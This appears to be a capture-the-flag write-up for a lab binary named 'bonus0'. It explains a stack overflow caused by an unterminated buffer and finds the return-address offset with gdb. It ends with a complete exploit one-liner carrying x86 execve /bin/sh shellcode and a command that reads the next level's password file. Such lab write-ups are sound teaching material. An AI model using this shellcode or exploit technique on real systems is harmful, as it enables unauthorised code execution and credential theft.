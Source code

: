 ### Brief
For this program there is a `main`, a `pp` and a `p` function.
The `main` function has a stack buffer of size 54, call `pp` on this buffer and display the buffer using `puts`
The `pp` function has two buffer of size 20 and call `p` once for each buffer.
It then copy the first buffer onto the `main buffer` replace the `\0` with a space character.
And it uses `strcat` on the `main buffer` and the second buffer.
The `p` function is used to write the stdin in a buffer of size `4096`, search for a `\n` and replace it with a `\0`.

### Exploit
Here we can see that the `p` function in charge of null terminating the input buffer can be exploited.
Indeed it replace `\n` with a `\0` in its internal buffer but copies only the 20 first bytes.
So we can manage to make the first buffer of `pp` non-null terminated.

Keeping in mind that the `main` buffer is of size 54.
Our first buffer of size 20 is copied inside but is not null terminated.
So it `strcpy` overflows and also copy the second buffer inside our `main buffer`.
Since the second buffer needs to be null terminated we copy 20 bytes into the `main buffer`
So far, 40 bytes are copied inside the `main buffer` with the first `strcpy`.
It adds a space character at the end of the buffer.
And it `strcat` the `main buffer` with the second buffer.
Now we copied 60 bytes into the `main buffer` so we overflow it by 6 bytes which is enough to modify the return address.

Now we need to create the payload.
The first input will be 20 `NOP` instructions.
The second one will be used to now with the pattern generator to get the offset of the return address.

```bash
(python -c "print('A' * 20)"; python -c "print('Aa0Aa1Aa2Aa3Aa4Aa5A')") | ./bonus0
dmesg
...
[ 2931.503208] bonus0[16693]: segfault at 35614134 ip 35614134 sp bffff770 error 14
```

The offset is 14.

Now we will place our shellcode inside the giant buffer of the `p` function.
We will place it using our second input and add some `NOP` instructions.
We just need to get the address of the `p` buffer.


```bash
(gdb) b p
Breakpoint 1 at 0x80484bd
(gdb) r
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080484bd in p ()
(gdb) x $esp
0xbfffe670:	0x00000000
```

The start address of the `p` buffer is `0xbfffe670`.

### Get access

```bash
(python -c "print('A' * 20)"; python -c "print('A'*14 + '\xd0\xe6\xff\xbf' + 'A' + '\n' + 100*'\x90' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')"; echo 'cat /home/user/bonus1/.pass') | ./bonus0
```